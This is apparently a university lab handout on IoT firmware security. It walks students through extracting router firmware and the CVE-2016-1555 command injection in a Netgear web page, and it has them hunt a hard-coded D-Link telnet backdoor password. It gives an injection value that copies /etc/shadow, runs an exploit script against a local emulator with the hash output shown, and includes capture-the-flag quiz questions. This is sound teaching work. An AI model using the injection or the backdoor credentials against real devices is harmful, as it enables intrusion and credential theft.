

# Lab 9: IoT CI & CPS


PLEASE NOTE: This lab image uses a lot of storage space (storage size is over 1GB!), so ensure you have enough space on your hard drive before proceeding.


Walkthrough video:

**IoT & CPS 9-1** [https://www.youtube.com/watch?v=nTjmkLGOJZ0](https://www.youtube.com/watch?v=nTjmkLGOJZ0)

## Intro to IoT CI & CPS

A challenge of dealing with IoT and Cyberphysical Systems in general is that the software runs on specific hardware rather than general purpose computers. Also, there are a number of different operating systems that these devices can use. IoT is different from normal computers in that they have less resources like memory to operate with and usually are diskless.

Having said that, a large number of consumer devices operate on a linux or linux-like system and so that makes analysis of these devices and even software emulation somewhat simpler.

IoT has a history of poor security. One of the principle areas of concern, and one we will look at in this lab has been the use of hard-coded passwords for remote access to the devices and leaving access to those services open by default. This is one of those "usability vs security" scenarios, and it should give you a good idea to always think about the importance of security.

## 1. Examining firmware

In this exercise, we are going to be looking at the firmware from a Netgear Wireless Router the WNAP320 which was a consumer wireless router which went on sale in 2010 but was available for several years after that. Like all consumer router devices, it provides a web interface to administer the device. It also supports remote access using Telnet and SSH which are not enabled by default. The administration function is normally accessed by being on the local network or by using a direct cable to connect to the device. Some details of the device are provided here: [https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html](https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html)

The device ships with a default username of `admin` and a password of `password`. This is already a problem because a large number of users would leave the device configured with the defaults and never change them. You don't have to worry too much about this nowadays as the admin passwords are now randomised before being shipped out - but it is a lingering issue.

Let us start by using the docker container as follows

```bash
sudo docker run -p 8000:8000 -it --rm uwacyber/cits1003-labs:iot
```

Change directory to `/opt/samples/WNAP320`

In that directory is a ZIP file which is the firmware for the WNAP320 router (alternatively, you can still download the firmware from Netgear via [http://realroy.ucc.asn.au/firmware.zip](http://realroy.ucc.asn.au/firmware.zip) or [http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip](http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip))

Use the `docker cp` command to copy the zip file from the docker container into your Linux VM, unzip the file and see what it contains from your VM.

```bash
unzip WNAP320\ Firmware\ Version\ 2.0.3.zip
```

```bash
Archive:  WNAP320 Firmware Version 2.0.3.zip
inflating: ReleaseNotes_WNAP320_fw_2.0.3.HTML
inflating: WNAP320_V2.0.3_firmware.tar
```

The file `WNAPP320V2.0.3_firmware.tar` file is another archive file (colloquially called a tarball). We can extract this using the `tar` utility:

```bash
tar -xvf WNAP320_V2.0.3_firmware.tar
```

```bash
vmlinux.gz.uImage
rootfs.squashfs
root_fs.md5
kernel.md5
```

The `vmlinux.gz.uImage` is the actual kernel of the operating system and contains all of the code that will run that when booted on a device. The `rootfs.sqaushfs` is the file system in `squashfs` format. The files with the md5 extension are the MD5 hashes of the image and `squashfs` files. To look at the contents of the `squashfs` file, we need to extract this file and we can use the `binwalk` tool to do this:

```bash
binwalk -e rootfs.squashfs
```

```bash

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, big endian, lzma signature, version 3.1, size: 4433988 bytes, 1247 inodes, blocksize: 65536 bytes, created: 2011-06-23 10:46:19

root@c05e6f92e214:/opt/samples/WNAP320# ls -al
total 15868
drwxr-xr-x 1 root root    4096 Feb 15 03:21  .
drwxr-xr-x 1 root root    4096 Aug  7  2021  ..
-rw-r--r-- 1 root root    2667 Apr  3  2012  ReleaseNotes_WNAP320_fw_2.0.3.HTML
-rw-r--r-- 1 root root 5362552 Aug  7  2021 'WNAP320 Firmware Version 2.0.3.zip'
-rw-r--r-- 1 root root 5427200 Apr  3  2012  WNAP320_V2.0.3_firmware.tar
drwxr-xr-x 3 root root    4096 Feb 15 03:21  _rootfs.squashfs.extracted
-rwxr--r-- 1 root root    1130 Aug  7  2021  exploit.py
-rw-r--r-- 1 root root      36 Jun 23  2011  kernel.md5
-rw-r--r-- 1 root root      36 Jun 23  2011  root_fs.md5
-rwx------ 1 root root 4435968 Jun 23  2011  rootfs.squashfs
-rw-r--r-- 1 root root  983104 Jun 23  2011  vmlinux.gz.uImage
```

This will now extract a directory `_rootfs.squashfs.extracted` that contains `squashfs-root` which is the root of the filesystem for the firmware:

```bash
ls -al ./_rootfs.squashfs.extracted/squashfs-root/
```

```bash
total 52
drwxr-xr-x 13 root root 4096 Jun 23  2011 .
drwxr-xr-x  3 root root 4096 Feb 15 03:21 ..
drwxr-xr-x  2 root root 4096 Jun 23  2011 bin
drwxr-xr-x  3 root root 4096 Jun 23  2011 dev
drwxr-xr-x  6 root root 4096 Jun 23  2011 etc
drwxr-xr-x  4 root root 4096 Jun 23  2011 home
drwxr-xr-x  3 root root 4096 Jun 23  2011 lib
lrwxrwxrwx  1 root root   11 Feb 15 03:21 linuxrc -> bin/busybox
drwxr-xr-x  2 root root 4096 Aug 22  2008 proc
drwxr-xr-x  2 root root 4096 Aug 22  2008 root
drwxr-xr-x  2 root root 4096 Jun 23  2011 sbin
drwxr-xr-x  2 root root 4096 Aug 22  2008 tmp
drwxr-xr-x  7 root root 4096 Jun 23  2011 usr
drwxr-xr-x  2 root root 4096 Nov 11  2008 var
```

If you cannot see the files above, try to use the command below to install `sasquatch` and rerun the `binwalk` command.

```bash
sudo apt-get install -y sasquatch
```

You probably recognise that this is the layout of a normal linux-based operating system.

When exploring the firmware, we would start by looking at where the source code for the management functionality is stored. In this software, that is in `/home/www` and if you look in that directory, you will find PHP files that represent the code that runs the administration website:

```bash
.../squashfs-root/home/www# ls
BackupConfig.php  boardDataWW.php  checkSession.php  data.php            header.php  index.php          login_header.php  packetCapture.php  saveTable.php   test.php        tmpl
UserGuide.html    body.php         clearLog.php      downloadFile.php    help        killall.php        logout.html       recreate.php       siteSurvey.php  thirdMenu.html
background.html   button.html      common.php        getBoardConfig.php  images      login.php          logout.php        redirect.html      support.link    thirdMenu.php
boardDataNA.php   checkConfig.php  config.php        getJsonData.php     include     login_button.html  monitorFile.cfg   redirect.php       templates       titleLogo.php
```

It turns out that there is a vulnerability in a number of these files that allows for remote command execution (RCE) that has the CVE `CVE-2016-1555`. The exploit code is listed on exploit-db here [https://www.exploit-db.com/exploits/45909](https://www.exploit-db.com/exploits/45909)

One of the affected files is `boardDataWW.php` and the specific code at fault is:

```php
if (!empty($_REQUEST['macAddress'])
    && array_search($_REQUEST['reginfo'],Array('WW'=>'0','NA'=>'1'))!==false
    && ereg("[0-9a-fA-F]{12,12}",$_REQUEST['macAddress'],$regs)!==false) {
    //echo "test ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'];
    //exec("wr_mfg_data ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'],$dummy,$res);
    exec("wr_mfg_data -m ".$_REQUEST['macAddress']." -c ".$_REQUEST['reginfo'],$dummy,$res);
```

This code file is responsible for showing this page to capture a MAC address for the device:



When the user enters a MAC address and clicks the Submit button, the value entered into the form is passed to a PHP script on the router. This script performs a small number of checks and then passes the input directly to a command line utility called `wr_mfg_data`.

For example, if the user enters the MAC address `f8ffc201fae5` and selects region code `1`, the intended command executed on the system is:

```bash
wr_mfg_data -m f8ffc201fae5 -c 1
```

Looking at the PHP code, the validation of the MAC address is very weak. The script checks that the value is not empty and that it contains a sequence of 12 hexadecimal characters. However, it does not ensure that the input contains only those 12 characters. Any extra characters added after a valid MAC address are not removed or blocked.

This means that as long as the input includes a valid 12-character MAC address somewhere, the check will pass, even if additional text is appended. Because the input is placed directly into a shell command, we can take advantage of this by adding a semicolon `;`. In a shell, the semicolon is used to separate commands, so anything after it is executed as a new command.

For example, if the user enters the following value into the MAC address field:

```bash
f8ffc201fae5; cp /etc/shadow test.html;
```

The application inserts this value directly into the command string. The actual command executed by the system becomes:

```bash
wr_mfg_data -m f8ffc201fae5; cp /etc/shadow test.html; -c 1
```

As a result, the second command copies the `/etc/shadow` file into an HTML file named `test.html`, which can then be accessed through the router web interface. The `/etc/shadow` file contains password hashes for user accounts on Linux systems and is normally readable only by the root user. Being able to read this file through a web interface demonstrates the seriousness of this vulnerability.

### Testing the Vulnerability

Instead of purchasing a physical wireless router for testing, we can run the router firmware inside an emulator. For this lab, an emulated version of the firmware has been prepared so that you can access the router web interface directly from your browser. Follow the steps below carefully.

First, open a new terminal and start the firmware emulator container using the following command:

```bash
sudo docker run --cap-add=NET_ADMIN --device=/dev/net/tun --name wnap320-emulator-container --rm -p 80:80 uwacyber/cits1003-labs:wnap320-emulator
```

You may notice some command options that you have not seen before. The options `--cap-add=NET_ADMIN` and `--device=/dev/net/tun` grant the container additional permissions that are required for network emulation. The `--name wnap320-emulator-container` option assigns a name to the container to make later operations easier.

After waiting a short time, try accessing the emulator by visiting [http://localhost/boardDataWW.php](http://localhost/boardDataWW.php) in your browser. If you see a "bad gateway" error, wait a little longer and then reload the page, as the emulator may still be initializing.

At this point, you might notice that the web interface appears to prevent you from entering the exploit string we discussed eariler. This is because the page includes a JavaScript function named `checkMAC` that validates the input format before it is submitted. However, this is a **client-side check**; it only runs in your browser and does not protect the server-side PHP code. An attacker can bypass this entirely by sending requests directly to the router, skipping the browser and its JavaScript restrictions.

To demonstrate this bypass, we will use a Python script to send a crafted request directly to the router firmware. At this point, you should have two Docker containers running in parallel:

- **The Attacker (`uwacyber/cits1003-labs:iot`):** The container you launched at the start of the lab.
- **The Target (`uwacyber/cits1003-labs:wnap320-emulator`):** The emulator you just launched.

The exploit script is located inside the `uwacyber/cits1003-labs:iot` container. To allow the attacker to communicate with the target, you must first determine the emulator's IP address. Open a new terminal and run:

```bash
sudo docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' wnap320-emulator-container
```

Note down the IP address displayed (e.g., `172.17.0.3`). Now, return to the terminal where your `uwacyber/cits1003-labs:iot` container is running and execute the following:

```bash
# If your IP address is different, replace it with the one you obtained above
python3 /opt/samples/WNAP320/exploit.py 172.17.0.3 /etc/shadow
```

```bash
root:$1$qFRaTV7q$9Ywdjs5mpj6WK0SHCEp3k/:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
admin:$1$FEwmvgVS$VOTDB1sHpWGBXklzKrPHd1:10933:0:99999:7:::
```

The exploit script sends a crafted network request directly to the router firmware. Because the request does not pass through the browser, none of the JavaScript input checks are applied, and the firmware processes the request exactly as described earlier. If you now visit [http://localhost/test.html](http://localhost/test.html) in your browser, you should be able to view the contents of `/etc/shadow`, confirming that the exploit was successful.

If you are interested, you may examine the Python script `exploit.py` to see how the request is constructed and sent. The script takes two arguments: the IP address of the emulated router and the path of the file to read from the system. While the same technique could be used to perform more serious attacks, this is outside the scope of this unit.

Once you have finished experimenting, terminate the firmware emulator by closing its terminal window, as it does not respond to keyboard inputs.

### Question 1. Exploit to find the flag

Flag: Run `exploit.py` and pass the argument `flag.txt`

## 2. Searching for Hard Coded Credentials

In this example, we are looking at firmware for the DLINK 300 wireless access point. Change directory into `/opt/samples/DIR300`. Extract the firmware file with `binwalk` (Before the extraction, remember to use the `docker cp` command to copy the firmware file from the docker container into your Linux VM).

```bash
cd /opt/samples/DIR300
binwalk -e DIR-300A1_FW105b09.bin
```

```bash

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
48            0x30            Unix path: /dev/mtdblock/2
96            0x60            LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 1626112 bytes
524384        0x80060         PackImg section delimiter tag, little endian size: 13638400 bytes; big endian size: 1822720 bytes
524416        0x80080         Squashfs filesystem, big endian, version 2.0, size: 1819244 bytes, 895 inodes, blocksize: 65536 bytes, created: 2010-11-26 07:22:55

root@c3e1d7ac5055:/opt/samples/DIR300# ls -al
total 2316
drwxr-xr-x 4 root root    4096 Jul 10 03:42 .
drwxr-xr-x 1 root root    4096 Jul 10 02:14 ..
-rw-r--r-- 1 root root 2347136 Feb 12  2016 DIR-300A1_FW105b09.bin
drwxr-xr-x 3 root root    4096 Jul 10 02:14 _DIR-300A1_FW105b09.bin.extracted
```

We can now `cd` into the directory `_DIR-300A1_FW105b09.bin.extracted` and then into the directory `squashfs-root`. Again we have a Linux filesystem

```bash
cd /opt/samples/DIR300/_DIR-300A1_FW105b09.bin.extracted/squashfs-root
ls -al
```

```bash
total 56
drwxrwsr-x 14  528 1000 4096 Nov 26  2010 .
drwxr-xr-x  3 root root 4096 Jul 10 02:14 ..
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 bin
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 dev
drwxrwsr-x  9  528 1000 4096 Nov 26  2010 etc
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 home
drwxrwsr-x  4  528 1000 4096 Nov 26  2010 htdocs
drwxrwsr-x  4  528 1000 4096 Nov 26  2010 lib
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 mnt
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 proc
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 sbin
lrwxrwxrwx  1  528 1000    8 Jul 10 02:14 tmp -> /var/tmp
drwxrwsr-x  5  528 1000 4096 Nov 26  2010 usr
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 var
drwxrwsr-x 11  528 1000 4096 Nov 26  2010 www
```

If you cannot see the files above, try to use the command below to install `sasquatch` and rerun the `binwalk` command.

```bash
sudo apt-get install -y sasquatch
```

You can explore the file system a bit to see where things are but to shortcut, we are interested in the telnet service which allows remote access to the DLINK box. If we do a search for the word telnet in all of the files we get:

```bash
grep -ir telnet *
```

```bash
etc/defnodes/S11setnodes.php:set("/sys/telnetd",                        "true");
etc/scripts/system.sh:  # start telnet daemon
etc/scripts/system.sh:  /etc/scripts/misc/telnetd.sh    > /dev/console
etc/scripts/misc/telnetd.sh:TELNETD=`rgdb -g /sys/telnetd`
etc/scripts/misc/telnetd.sh:if [ "$TELNETD" = "true" ]; then
etc/scripts/misc/telnetd.sh:    echo "Start telnetd ..." > /dev/console
etc/scripts/misc/telnetd.sh:            telnetd -l "/usr/sbin/login" -u Alphanetworks:$image_sign -i $lf &
etc/scripts/misc/telnetd.sh:            telnetd &
Binary file usr/lib/tc/q_netem.so matches
www/__adv_port.php:                                     <option value='Telnet'>Telnet</option>
```


On PowerShell, the path may not show in the console. You can copy the text and paste into a text editor to see them.


The file that is interesting is the script `telnetd.sh` where there is a login command with a `-u` flag that passes in a username (e.g., `Alphanetworks`) and password. Here, the password is passed in as a variable `image_sign`. So now let's inspect the `telnetd.sh` to see if we can find any information about `image_sign`. Keep tracking the leads and you should be able to find the password.

The dir300 is the model number and the other parts of the password don't change much between models. Others have compiled a list of possible passwords for DLINK routers ([https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/dlink_telnet_backdoor_userpass.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/dlink_telnet_backdoor_userpass.txt)).

### **Question 2. Enter the password**

**Flag: Enter the password to claim the flag**

Clearly it is not a good thing that the password for the router is available on a remote connection protocol like Telnet that is enabled on this router by default. DLINK has tried to improve its security including encrypting the firmware. However, even here, the key has been reverse engineered and some of the encrypted firmware that DLINK provides can be unencrypted easily.

## Case study: Rowhammer

First proposed in 2014, Rowhammer is a way to induce memory errors in modern DRAM chips by repeatedly accessing rows of memory cells with a burst of read or write operations.

Read through the following article and answer the questions below:
[https://news.sophos.com/en-us/2021/04/19/serious-security-rowhammer-is-back-but-now-its-called-smash/](https://news.sophos.com/en-us/2021/04/19/serious-security-rowhammer-is-back-but-now-its-called-smash/)

### Question 3. The Root Cause of Rowhammer

What is the root cause of unexpected bit flips in Rowhammer?&#x20;

1. CPU cache inefficiency &#x20;
2. Memory access sequences &#x20;
3. DRAM refresh cycle &#x20;
4. Repeated nanoscopic electrical activity


Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).


### Question 4. Mitigating Rowhammer

Which of the following is used by modern DRAM chips to prevent Rowhammer? &#x20;

1. CPU cache &#x20;
2. TRR (Target Row Refresh) &#x20;
3. THP (Transparent Huge Pages) &#x20;
4. Predictable memory allocation


Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).


### Question 5. Mitigating SMASH

Which of the following is an effective mitigation for SMASH on a Linux system? &#x20;

1. Update the browser to the latest version &#x20;
2. Use non-TRR DRAM chips &#x20;
3. Decrease the DRAM refresh frequency &#x20;
4. Turn off Transparent Huge Pages (THP)


Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).

